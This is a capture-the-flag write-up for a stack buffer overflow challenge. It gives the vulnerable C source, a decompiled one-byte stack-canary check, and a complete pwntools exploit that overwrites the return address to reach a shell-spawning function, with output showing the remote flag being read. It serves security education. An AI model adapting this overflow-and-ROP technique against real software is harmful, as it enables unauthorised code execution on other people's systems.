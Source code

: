# stack duck (ath0)
This challenge comes with a meme as a hint:

![stack-duck](stack-duck.png)

## Exploration
Lets take a look at the provided source code
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

volatile long DuckCounter;

__attribute__((noinline))
void win() {
    system("/bin/sh");
}

__attribute__((noinline))
void submit_code() {
    char temp_code[512];

    printf("Please enter your code. Elon will review it for length.\n");
    fgets(temp_code, 552, stdin);
}

__attribute__((noinline))
int menu() {
    printf("Twitter Employee Performance Review\n");
    printf("***********************************\n\n");
    printf("1. Submit code for approval\n");
    printf("2. Get fired\n");

    return 0;
}

int main() {
    setvbuf(stdout, 0, 2, 0);
    int run = 1;
    while (run) {
        char buf[0x20];
        menu();
        fgets(buf, 0x20, stdin);
        int choice = atoi(buf);
        switch (choice) {
            case 1:
                submit_code();
                break;
            case 2:
                run = 0;
                break;
            default:
                break;
        }
    }
    return 0;
}
```

Seems fairly simple, find a way to call the `win` function. There's a buffer overflow in `submit_code`, meaning that we should be able to override the return address of `submit_code` to return to `win`.

However, modern compilers add protections by default, so before we get ahead of ourselves lets run `checksec` (provided by `pwntools`) on the binary to see whats going on there.
```bash
$ checksec chall
[*] '/root/ctf/stack-duck/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Importantly it says `Stack:    Canary found`.

## Stack Canaries
The stack canary is a secret value placed on stack after all of the variables, and is checked before the function returns to make sure it is the correct value. There is a new canary every time the program is executed. This way, if some buffer overflow exists, it will overwrite the canary in the process of overwriting the return value which will be detected, give an error message, and quit immediately.
```
*** stack smashing detected ***: terminated
```

Given the meme as a hint and the fact that there is a canary, this challenge is likely going to be about beating the stack canary. Typically, this is done by somehow leaking the value of the canary, but in this challenge it is not possible to do so because there is no user controlled way of printing out any values. We will have to look for something else.

## Weirdness
The name of the challenge is Stack Duck, not Stack Canary, and in the provided source code there is a variable declaration:
```c
volatile long DuckCounter;
```

However nowhere is this value used! Lets have a look in ghidra to examine could be happening here.
```c
void submit_code(void)
{
    long lVar1;
    long in_FS_OFFSET;
    char temp_code [512];

    lVar1 = *(long *)(in_FS_OFFSET + 0x28);
    printf("Please enter your code. Elon will review it for length.\n");
    fgets(temp_code,0x228,stdin);

    DuckCounter = DuckCounter + 1;
    if ((DuckCounter & 0x1f) == 0x1e) {
        if ((char)*(undefined8 *)(in_FS_OFFSET + 0x28) != (char)lVar1) goto LAB_00401209;
    } else if (*(long *)(in_FS_OFFSET + 0x28) != lVar1) {
        LAB_00401209:
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
    }

    return;
}
```

This is much better, and we can see that `DuckCounter` is being used here. Our goal is to create a buffer overflow which passes the stack check, or in other words, to avoid `__stack_chk_fail()` being called. The block with the `else if (*(long *)(in_FS_OFFSET + 0x28) != lVar1)` looks like a standard canary check, but there is an additional condition which we can satisfy involving the `DuckCounter` which appears to have been artificially added. Let's try to bypass the canary using that.

## Exploit
Lets take the following code segment one piece at a time.
```c
DuckCounter = DuckCounter + 1;
if ((DuckCounter & 0x1f) == 0x1e) {
    if ((char)*(undefined8 *)(in_FS_OFFSET + 0x28) != (char)lVar1) goto LAB_00401209;
}
```

We increment `DuckCounter` every time we call the function, and then if `(DuckCounter & 0x1f) == 0x1e` is true we continue. So calling the function `0x1e=30` times will allow us to continue. Then, it looks like the regular canary check happens, but there is actually a subtle difference, there is a `(char)` cast on `lVar1`, meaning that only one byte will be compared. Now if the canary is random we have a 1/256 chance of guessing the right chance, so on average all we have to do is run the program 256 times to win (before if we simply tried guessing the canary value we would have to guess a 64 bit value which is not feasible). But it is actually far better than this, because for some reason the value that it compares to always turns out to be 0 (found in gdb). So if we put a null byte in our exploit can pass the canary check and return to the `win` function. Lets write the exploit.

```python
from pwn import *

exe = ELF("./chall")
context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, '''
                c
            ''')
    else:
        r = remote("pwn.chall.pwnoh.io", 13386)

    return r


def main():
    r = conn()

    # set up for passing the (DuckCounter & 0x1f) == 0x1e check
    for duck_count in range(0x1e - 1):
        r.sendline(b'1')
        r.recvuntil(b'.\n')
        r.sendline(str(duck_count).encode())  # doesn't matter what we send here

    log.info("Sending!")
    r.sendline(b'1')
    r.recvuntil(b'.\n')

    # padding
    payload = b'A'*512 + b'B'*8

    # our canary which must have a null byte at the end, the rest of the values don't matter
    payload += p64(0xaabbccddee00)

    # more padding
    payload += b'C'*8

    # first return address, simple rop to a ret instruction to realign the stack
    payload += p64(0x40101a)

    # final return address, to the win function which calls /bin/sh
    payload += p64(exe.symbols["win"])

    # send the payload
    r.sendline(payload)
    r.interactive()

if __name__ == "__main__":
    main()
```

```bash
$ python3 solve.py
[*] '/root/ctf/stack-duck/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to pwn.chall.pwnoh.io on port 13386: Done
[*] Sending!
[*] Switching to interactive mode
$ ls
chall
flag.txt
$ cat flag.txt
buckeye{if_it_quacks_like_a_duck_it_might_not_be_a_duck}

$
[*] Interrupted
[*] Closed connection to pwn.chall.pwnoh.io port 13386
```